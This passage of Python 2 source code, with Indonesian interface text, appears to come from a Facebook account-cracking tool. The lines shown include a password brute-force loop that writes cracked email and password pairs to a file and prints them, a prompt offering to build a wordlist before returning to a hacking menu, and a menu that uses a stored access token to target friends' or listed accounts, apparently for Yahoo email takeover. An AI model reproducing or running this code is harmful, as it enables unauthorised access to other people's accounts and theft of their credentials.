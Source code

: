                         if 'www.facebook.com' in mpsh['error_msg']:
                            ceks = open('Brutecekpoint.txt', 'w')
                            ceks.write(email + ' | ' + pw + '\n')
                            ceks.close()
                            print '\n\x1b[1;91m[+] \x1b[1;92mDitemukan.'
                            print 40 * '\x1b[1;97m\xe2\x95\x90'
                            print '\x1b[1;91m[!] \x1b[1;93mAkun kena Checkpoint'
                            print '\x1b[1;91m[\xe2\x9e\xb9] \x1b[1;92mUsername \x1b[1;91m:\x1b[1;97m ' + email
                            print '\x1b[1;91m[\xe2\x9e\xb9] \x1b[1;92mPassword \x1b[1;91m:\x1b[1;97m ' + pw
                            keluar()
                except requests.exceptions.ConnectionError:
                    print '\x1b[1;91m[!] Koneksi Error'
                    time.sleep(1)

        except IOError:
            print '\x1b[1;91m[!] File tidak ditemukan...'
            print '\n\x1b[1;91m[!] \x1b[1;92mSepertinya kamu tidak memiliki wordlist'
            tanyaw()


def tanyaw():
    why = raw_input('\x1b[1;91m[?] \x1b[1;92mIngin membuat wordlist ? \x1b[1;92m[y/t]\x1b[1;91m:\x1b[1;97m ')
    if why == '':
        print '\x1b[1;91m[!] Tolong pilih \x1b[1;97m(y/t)'
        tanyaw()
    else:
        if why == 'y':
            wordlist()
        else:
            if why == 'Y':
                wordlist()
            else:
                if why == 't':
                    menu_hack()
                else:
                    if why == 'T':
                        menu_hack()
                    else:
                        print '\x1b[1;91m[!] Tolong pilih \x1b[1;97m(y/t)'
                        tanyaw()


def menu_yahoo():
    os.system('clear')
    try:
        toket = open('login.txt', 'r').read()
    except IOError:
        print '\x1b[1;91m[!] Token tidak ditemukan'
        os.system('rm -rf login.txt')
        time.sleep(1)
        login()

    os.system('clear')
    print logo
    print 40 * '\x1b[1;97m\xe2\x95\x90'
    print '\x1b[1;37;40m1. Dari teman facebook'
    print '\x1b[1;37;40m2. Gunakan File'
    print '\x1b[1;31;40m0. Kembali'
    print
    yahoo_pilih()
